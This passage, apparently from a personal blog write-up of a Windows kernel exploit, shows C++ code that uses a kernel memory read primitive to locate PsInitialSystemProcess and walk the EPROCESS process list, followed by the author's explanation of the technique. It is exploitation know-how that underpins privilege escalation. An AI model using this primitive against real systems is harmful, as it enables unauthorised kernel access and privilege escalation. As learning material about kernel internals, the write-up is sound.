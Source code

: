 ```c++
	this->VirtualRead(ntoskrnlBase + PsIntialSystemProcessOffset, &initialSystemProcess, sizeof(DWORD64));
	if (!initialSystemProcess) {
		Logger::Error("Failed to VirtualRead PsInitialSystemProcess offset!");
		return NULL;
	}
	// Reads ActiveProcessLinks of the system process to iterate through all processes
	LIST_ENTRY activeProcessLinks;
	this->VirtualRead(initialSystemProcess + EPROCESS_ACTIVEPROCESSLINKS, &activeProcessLinks, sizeof(activeProcessLinks));
	// Prepares input string for search algorithm below
	const char* inputName = processName.c_str();
	// Sets up a current process tracker as we iterate through all of the processes
	DWORD64 currentProcess{};
	UCHAR currentProcessName[EPROCESS_MAX_NAME_SIZE]{};
	// Loops through the process list three times to find the PID we're looking for
	for (DWORD i{}; i < 3; i++) {
		do {
			// Initializes the currentProcess tracker with the process that comes after System
			this->VirtualRead((DWORD64)activeProcessLinks.Flink, &currentProcess, sizeof(DWORD64));
			// Subtracts the offset of the activeProcessLinks offset as an activeProcessLink
			// points to the activeProcessLinks of another EPROCESS struct
			currentProcess -= EPROCESS_ACTIVEPROCESSLINKS;
			// Gets the Name of currentProcess
			this->VirtualRead(currentProcess + EPROCESS_NAME, &currentProcessName, sizeof(currentProcessName));
			// Checks if the currentProcess is the one we're looking for
			Logger::InfoHex((const char*)currentProcessName, strncmp((const char*)currentProcessName, inputName, EPROCESS_MAX_NAME_SIZE));
			if (strncmp((const char*)currentProcessName, inputName, EPROCESS_MAX_NAME_SIZE) == 0) {
				// If it is the process, return the pointer to the EPROCESS struct
				return currentProcess;
			}
			// If not, update the activeProcessLinks entry with the list entry from currentprocess
			this->VirtualRead(currentProcess + EPROCESS_ACTIVEPROCESSLINKS, &activeProcessLinks, sizeof(activeProcessLinks));
		} while (strncmp((const char*)currentProcessName, SYSTEM_NAME, EPROCESS_MAX_NAME_SIZE) != 0);
	}
	// Will return NULL if the process is not found after 3 iterations
	return NULL;
}
```

Now that I had a way to access *ntoskrnl.exe*, it was time to start utilizing it to its full potential. Creating this function was the most time-consuming part of the exploit, but it is incredibly useful. The first part of this function opens *ntoskrnl.exe* as a file so that it can parse its export table. I really wanted to gain some experience with the PE file format, so I did all of the PE header parsing manually instead of using a library. After I parsed the export table, I searched it for *PsInitialSystemProcess*, a pointer to the EPROCESS structure for the *System* process. While this may seem useless at first, every EPROCESS structure has a pointer to the next EPROCESS structure in memory. This means that if you have access to one EPROCESS entry, you have access to all of them. After finding the address of *PsInitialSystemProcess*, I read the value of the variable from the memory of *ntoskrnl.exe*. Once I had this, I used the *VirtualRead* method to read the *ActiveProcessLinks* struct member which gives us access to every other EPROCESS struct on the system. Finally, I iterate through all of the EPROCESS entries until I find the one that matches the *processName* parameter. The process then returns a pointer to the found EPROCESS entry if it succeeds. After you have this, the sky is pretty much the limit with kernel exploitation. You can see all processes, threads, loaded modules, and whatever else that is related to the EPROCESS structure. Writing these functions was great as it gave me plenty of insight into how some of the kernel structures work and I also got some hands-on experience with the PE file structure.
<br /><br /> 